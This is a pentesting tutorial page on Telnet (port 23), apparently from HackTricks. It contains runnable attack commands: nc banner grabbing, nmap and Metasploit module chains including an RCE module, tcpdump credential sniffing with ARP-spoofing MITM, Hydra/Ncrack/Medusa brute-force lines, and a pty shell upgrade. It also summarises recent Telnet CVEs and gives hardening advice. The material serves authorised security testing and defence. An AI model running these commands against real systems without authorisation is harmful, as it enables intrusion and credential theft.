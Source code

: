 # 23 - Pentesting Telnet

## **Basic Information**

Telnet is a network protocol that gives users a UNsecure way to access a computer over a network.

**Default port:** 23

```
23/tcp open  telnet
```

## **Enumeration**

### **Banner Grabbing**

```bash
nc -vn <IP> 23
```

All the interesting enumeration can be performed by **nmap**:

```bash
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 <IP>
```

The script `telnet-ntlm-info.nse` will obtain NTLM info (Windows versions).

From the [telnet RFC](https://datatracker.ietf.org/doc/html/rfc854): In the TELNET Protocol are various "**options**" that will be sanctioned and may be used with the "**DO, DON'T, WILL, WON'T**" structure to allow a user and server to agree to use a more elaborate (or perhaps just different) set of conventions for their TELNET connection. Such options could include changing the character set, the echo mode, etc.

**I know it is possible to enumerate this options but I don't know how, so let me know if know how.**

### [Brute force](../generic-hacking/brute-force.md#telnet)

## Config file

```bash
/etc/inetd.conf
/etc/xinetd.d/telnet
/etc/xinetd.d/stelnet
```

## HackTricks Automatic Commands

```
Protocol_Name: Telnet    #Protocol Abbreviation if there is one.
Port_Number:  23     #Comma separated if there is more than one.
Protocol_Description: Telnet          #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for t=Telnet
  Note: |
    wireshark to hear creds being passed
    tcp.port == 23 and ip.addr != myip

    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-telnet.html

Entry_2:
  Name: Banner Grab
  Description: Grab Telnet Banner
  Command: nc -vn {IP} 23

Entry_3:
  Name: Nmap with scripts
  Description: Run nmap scripts for telnet
  Command: nmap -n -sV -Pn --script "*telnet*" -p 23 {IP}

Entry_4:
  Name: consoleless mfs enumeration
  Description: Telnet enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_version; set RHOSTS {IP}; set RPORT 23; run; exit' && msfconsole -q -x 'use auxiliary/scanner/telnet/brocade_enable_login; set RHOSTS {IP}; set RPORT 23; run; exit' && msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_encrypt_overflow; set RHOSTS {IP}; set RPORT 23; run; exit' && msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_ruggedcom; set RHOSTS {IP}; set RPORT 23; run; exit'

```

### Recent Vulnerabilities (2022-2025)

* **CVE-2024-45698 – D-Link Wi-Fi 6 routers (DIR-X4860)**: The built-in Telnet service accepted hard-coded credentials and failed to sanitise input, allowing unauthenticated remote RCE as root via crafted commands on port 23. Fixed in firmware ≥ 1.04B05.
* **CVE-2023-40478 – NETGEAR RAX30**: Stack-based buffer overflow in the Telnet CLI `passwd` command lets an adjacent attacker bypass authentication and execute arbitrary code as root.
* **CVE-2022-39028 – GNU inetutils telnetd**: A two-byte sequence (`0xff 0xf7` / `0xff 0xf8`) triggers a NULL-pointer dereference that can crash `telnetd`, resulting in a persistent DoS after several crashes.

Keep these CVEs in mind during vulnerability triage—if the target is running an un-patched firmware or legacy inetutils Telnet daemon you may have a straight-forward path to code-execution or a disruptive DoS.

### Sniffing Credentials & Man-in-the-Middle

Telnet transmits everything, including credentials, in **clear-text**. Two quick ways to capture them:

```bash
# Live capture with tcpdump (print ASCII)
sudo tcpdump -i eth0 -A 'tcp port 23 and not src host $(hostname -I | cut -d" " -f1)'

# Wireshark display filter
 tcp.port == 23 && (telnet.data || telnet.option)
```
For active MITM, combine ARP spoofing (e.g. `arpspoof`/`ettercap`) with the same sniffing filters to harvest passwords on switched networks.

### Automated Brute-force / Password Spraying

```bash
# Hydra (stop at first valid login)
hydra -L users.txt -P rockyou.txt -t 4 -f telnet://<IP>

# Ncrack (drop to interactive session on success)
ncrack -p 23 --user admin -P common-pass.txt --connection-limit 4 <IP>

# Medusa (parallel hosts)
medusa -M telnet -h targets.txt -U users.txt -P passwords.txt -t 6 -f
```
Most IoT botnets (Mirai variants) still scan port 23 with small default-credential dictionaries—mirroring that logic can quickly identify weak devices.

### Exploitation & Post-Exploitation

Metasploit has several useful modules:

* `auxiliary/scanner/telnet/telnet_version` – banner & option enumeration.
* `auxiliary/scanner/telnet/brute_telnet` – multithreaded bruteforce.
* `auxiliary/scanner/telnet/telnet_encrypt_overflow` – RCE against vulnerable Solaris 9/10 Telnet (option ENCRYPT handling).
* `exploit/linux/mips/netgear_telnetenable` – enables telnet service with a crafted packet on many NETGEAR routers.

After a shell is obtained remember that **TTYs are usually dumb**; upgrade with `python -c 'import pty;pty.spawn("/bin/bash")'` or use the [HackTricks TTY tricks](/generic-hacking/reverse-shells/full-ttys.md).

### Hardening & Detection (Blue team corner)

1. Prefer SSH and disable Telnet service completely.  
2. If Telnet is required, bind it to management VLANs only, enforce ACLs and wrap the daemon with TCP wrappers (`/etc/hosts.allow`).  
3. Replace legacy `telnetd` implementations with `ssl-telnet` or `telnetd-ssl` to add transport encryption, but **this only protects data-in-transit—password-guessing remains trivial**.  
4. Monitor for outbound traffic to port 23; compromises often spawn reverse shells over Telnet to bypass strict-HTTP egress filters.

## References

* D-Link Advisory – CVE-2024-45698 Critical Telnet RCE.  
* NVD – CVE-2022-39028 inetutils `telnetd` DoS.

